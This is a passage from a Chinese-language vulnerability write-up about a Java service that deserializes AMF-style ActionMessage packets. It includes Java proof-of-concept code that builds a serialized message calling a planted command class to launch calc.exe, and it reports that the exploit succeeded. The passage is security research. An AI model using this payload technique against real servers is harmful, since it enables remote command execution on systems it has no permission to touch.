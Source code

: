 由上可知serviceName和functionName均来自targetURL，Parameters参数来自data。

比如我们要执行cmd.MyCmd类中的cmd函数,

targetURI赋值cmd.MyCmd.cmd即可

parameters通过data赋值

如果你看下PacketSecurityFilter中的代码，你就会发现整个流程的处理，可以不需要MessageHeader，所以我们前面基本不提MessageHeader相关细节。

下面我写了个简单的代码，执行我们的payload（我们之前手动放到lib目录下的CmdPayload.jar）



```
MessageSerializer myMessageSer = new MessageSerializer(false, "Classic", false);

myMessageSer.setOutputStream(new FileOutputStream("MessageSerializerSer"));



ActionMessage myActionMessage = new ActionMessage();

myActionMessage.setVersion(3);

//init msg header

//MessageHeader msgHeader1 = new MessageHeader("header1", false, "11111111111");

MessageBody msgBody1 = new MessageBody();

msgBody1.setTargetURI("cmd.MyCmd.cmd");

List&lt;String&gt; paramList = new ArrayList&lt;&gt;();

paramList.add("D:\\calc.exe");

msgBody1.setData(paramList);

myActionMessage.addBody(msgBody1);

myMessageSer.writeMessage(myActionMessage);
```

测试后发现，漏洞利用成功。



## 漏洞利用

数据处理的整个流程基本已经清楚，漏洞触发也没啥问题，但实际环境中我们不可能事先在别人的机器放上我们写好的jar文件吧。

漏洞利用，我们想要的最好结果，要么就是任意命令执行、要么能够上传、写文件也是ok的。

如果去测试java常用的攻击相关的类，比如Runtime、ProcessBuilder、File等类去做利用，都会失败（下面利用都是我个人对这个漏洞的理解，不一定完全正确）。

为什么呢，我们在看下JavaBeanAdapter中反射执行的代码
